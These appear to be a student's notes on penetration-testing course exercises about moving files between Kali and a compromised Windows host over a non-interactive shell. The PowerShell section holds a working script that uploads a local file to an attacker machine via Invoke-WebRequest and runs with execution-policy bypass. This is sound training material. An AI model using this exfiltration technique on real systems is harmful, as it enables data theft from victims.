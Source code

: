 ### 16.2.5.1 Exercises
#### 1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.



#### 2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.



#### 3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet Invoke-WebRequest was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

Check out this post:  https://forums.offensive-security.com/showthread.php?29753-exercise-16-2-5-1-Invoke-WebRequest-Upload&highlight=invoke-webrequest

```powershell
===================
what worked for me
===================

echo $filename = "hello.txt" > upload.ps1
echo $uri = "http://192.168.xxx.xxx/upload.php" >> upload.ps1
echo $currentpath = convert-path . >> upload.ps1
echo $filepath = "$currentpath\$filename" >> upload.ps1
echo $filebin = [System.IO.File]::ReadAllText($filepath) >> upload.ps1
echo $boundary = [System.Guid]::NewGuid().ToString() >> upload.ps1
echo $LF = "`r`n" >> upload.ps1
echo $bodylines = ("--$boundary", "Content-Disposition: form-data; name=`"file`"; filename=`"$filename`"", "Content-Type: application/octet-stream$LF", $filebin, "--$boundary--$LF") -join $LF >> upload.ps1
echo invoke-webrequest -uri $uri -method post -contenttype "multipart/form-data; boundary=`"$boundary`"" -body $bodylines -usebasicparsing >> upload.ps1

powershell -executionpolicy bypass -nologo -noninteractive -noprofile -file upload.ps1 
```



#### 4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows. Note: If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell. 

It was necessary to allow the tftp client on Windows through the Firewall because Kali responds back to the write request on a high port and Windows was blocking that response and stopping the transfer.

- Started the daemon on Linux:
  ![image-20200718160337010](.16.2.5.1-NR.assets/image-20200718160337010.png)
- Used non-interactive shell to initiate tftp transfer:
  ![image-20200718160245220](.16.2.5.1-NR.assets/image-20200718160245220.png)

